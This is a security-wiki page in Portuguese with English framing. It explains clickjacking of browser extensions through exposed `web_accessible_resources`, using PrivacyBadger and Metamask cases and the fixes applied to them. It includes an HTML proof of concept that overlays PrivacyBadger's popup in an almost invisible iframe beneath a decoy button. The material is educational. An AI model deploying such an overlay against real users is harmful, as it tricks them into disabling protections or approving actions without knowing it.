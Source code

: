 # BrowExt - ClickJacking

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Esta página vai abusar de uma vulnerabilidade de ClickJacking em uma extensão do navegador.\
Se você não sabe o que é ClickJacking, confira:

{% content-ref url="../clickjacking.md" %}
[clickjacking.md](../clickjacking.md)
{% endcontent-ref %}

As extensões contêm o arquivo **`manifest.json`** e esse arquivo JSON tem um campo `web_accessible_resources`. Aqui está o que [a documentação do Chrome](https://developer.chrome.com/extensions/manifest/web\_accessible\_resources) diz sobre isso:

> Esses recursos estariam então disponíveis em uma página da web via a URL **`chrome-extension://[PACKAGE ID]/[PATH]`**, que pode ser gerada com o **`extension.getURL method`**. Recursos permitidos são servidos com cabeçalhos CORS apropriados, então estão disponíveis via mecanismos como XHR.[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

Os **`web_accessible_resources`** em uma extensão do navegador não são apenas acessíveis via a web; eles também operam com os privilégios inerentes da extensão. Isso significa que eles têm a capacidade de:

* Mudar o estado da extensão
* Carregar recursos adicionais
* Interagir com o navegador até certo ponto

No entanto, esse recurso apresenta um risco de segurança. Se um recurso dentro de **`web_accessible_resources`** tiver alguma funcionalidade significativa, um atacante poderia potencialmente incorporar esse recurso em uma página da web externa. Usuários desavisados que visitam essa página podem inadvertidamente ativar esse recurso incorporado. Tal ativação pode levar a consequências indesejadas, dependendo das permissões e capacidades dos recursos da extensão.

## PrivacyBadger Example

Na extensão PrivacyBadger, uma vulnerabilidade foi identificada relacionada ao diretório `skin/` sendo declarado como `web_accessible_resources` da seguinte maneira (Confira o [post original do blog](https://blog.lizzie.io/clickjacking-privacy-badger.html)):
```json
"web_accessible_resources": [
"skin/*",
"icons/*"
]
```
Esta configuração levou a um potencial problema de segurança. Especificamente, o arquivo `skin/popup.html`, que é renderizado ao interagir com o ícone do PrivacyBadger no navegador, poderia ser incorporado dentro de um `iframe`. Essa incorporação poderia ser explorada para enganar os usuários a clicarem inadvertidamente em "Desativar PrivacyBadger para este Site". Tal ação comprometeria a privacidade do usuário ao desativar a proteção do PrivacyBadger e potencialmente sujeitar o usuário a um rastreamento aumentado. Uma demonstração visual dessa exploração pode ser vista em um exemplo de vídeo de ClickJacking fornecido em [**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm).

Para resolver essa vulnerabilidade, uma solução simples foi implementada: a remoção de `/skin/*` da lista de `web_accessible_resources`. Essa mudança efetivamente mitigou o risco ao garantir que o conteúdo do diretório `skin/` não pudesse ser acessado ou manipulado através de recursos acessíveis pela web.

A correção foi fácil: **remover `/skin/*` dos `web_accessible_resources`**.

### PoC
```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
width: 430px;
height: 300px;
opacity: 0.01;
float: top;
position: absolute;
}

#stuff {
float: top;
position: absolute;
}

button {
float: top;
position: absolute;
top: 168px;
left: 100px;
}

</style>

<div id="stuff">
<h1>
Click the button
</h1>
<button id="button">
click me
</button>
</div>

<iframe src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```
## Exemplo Metamask

Um [**post de blog sobre um ClickJacking no metamask pode ser encontrado aqui**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). Neste caso, o Metamask corrigiu a vulnerabilidade verificando se o protocolo usado para acessá-lo era **`https:`** ou **`http:`** (não **`chrome:`** por exemplo):

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

**Outro ClickJacking corrigido** na extensão Metamask foi que os usuários podiam **Clicar para adicionar à lista de permissões** quando uma página era suspeita de phishing por causa de `“web_accessible_resources”: [“inpage.js”, “phishing.html”]`. Como essa página era vulnerável ao Clickjacking, um atacante poderia abusar dela mostrando algo normal para fazer a vítima clicar para adicioná-la à lista de permissões sem perceber, e então voltar para a página de phishing que será adicionada à lista de permissões.

## Exemplo Steam Inventory Helper

Verifique a página a seguir para ver como um **XSS** em uma extensão de navegador foi encadeado com uma vulnerabilidade de **ClickJacking**:

{% content-ref url="browext-xss-example.md" %}
[browext-xss-example.md](browext-xss-example.md)
{% endcontent-ref %}

## Referências

* [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
* [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
